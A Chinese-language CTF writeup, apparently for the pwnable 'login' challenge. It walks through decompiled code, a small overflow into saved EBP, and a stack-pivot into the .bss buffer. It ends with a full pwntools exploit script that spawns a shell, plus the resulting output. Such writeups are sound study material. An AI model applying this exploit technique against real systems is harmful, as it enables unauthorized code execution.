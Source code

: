 ```yaml
---
layout: post
title: pwn pwnable login
excerpt: "pwnable login wirteup"
categories: [Writeup]
comments: true
---
```


这里用到栈转移技术

ida打开如下
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE *v4; // [sp+18h] [bp-28h]@1
  __int16 v5; // [sp+1Eh] [bp-22h]@1
  unsigned int v6; // [sp+3Ch] [bp-4h]@1

  memset(&v5, 0, 0x1Eu);                        // v5置零
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &v5);                   // 屏幕输入30字符到v5
  memset(&input, 0, 0xCu);                      // 置零
  v4 = 0;
  v6 = Base64Decode((int)&v5, &v4);             // v5进行解码
  if ( v6 > 014 )                               // v6>14则长度错误
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v4, v6);                     // 把v4复制到&input中,长度v6
    if ( auth(v6) == 1 )                        // md5校验,正确了就返回1
      correct();                                // 答对了直接开shell
  }
  return 0;
}
```

程序要求我们输入一个base64编码过的字符串，随后会进行解码并且复制到位于bss段的全局变量input中，最后使用auth函数进行验证，通过后进入带有后门的correct()打开shell

打开auth函数发现有栈溢出,offset为`8+4 = 12`
```c
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [sp+14h] [bp-14h]@1
  char *s2; // [sp+1Ch] [bp-Ch]@1
  int v4; // [sp+20h] [bp-8h]@1

  memcpy(&v4, &input, a1);                      // input在bss上,用户控制a1,存在溢出
  s2 = (char *)calc_md5(&v2, 12);
  printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```
调试发现不幸的是我们不能控制EIP，只能控制到EBP。这就需要用到stack pivot把对EBP的控制转化为对EIP的控制了。由于程序把解码后的输入复制到地址固定的`.bss`段上，且从auth到程序结束总共要经过auth和main两个函数的leave; retn。我们可以将栈劫持到保存有输入的.bss段上,结构如下
```
--------
new ebp |
--------|
new eip |两次leave,ret 之后,该地址的值为eip
--------|
.....   |
--------
```
而输入的内容是复制到`.bss`中的,所以payload在`stack`中如下

```
--------------
aaaa          |
--------------|
new eip       |
--------------|
point to .bss |
---------------
```
而输入的内容是复制到`.bss`中的,所以payload在`.bss`中如下
```
--------------
aaaa          | new ebp的值,无关紧要,所以aaaa
--------------|
new eip       | 两次leave,ret 之后,该地址的值为eip
--------------|
point to .bss |
---------------
```

最终的exp
```python
#!/usr/bin/python
#coding:utf-8

from pwn import *
from base64 import *

context.update(arch = 'i386', os = 'linux', timeout = 1)
io = process('./login')

payload = "aaaa"                #padding
payload += p32(0x08049284)      #system("/bin/sh")地址，整个payload被复制到bss上，栈劫持后retn时栈顶在这里
payload += p32(0x0811eb40)      #新的esp地址
io.sendline(b64encode(payload))
io.interactive()
```
结果
```python
python exp.py 
[+] Starting local process './login': pid 21958
[*] Switching to interactive mode
Authenticate : hash : 042095d730ded01465bcacae25f0b5ce
$ id
uid=0(root) gid=0(root) 组=0(root)

```
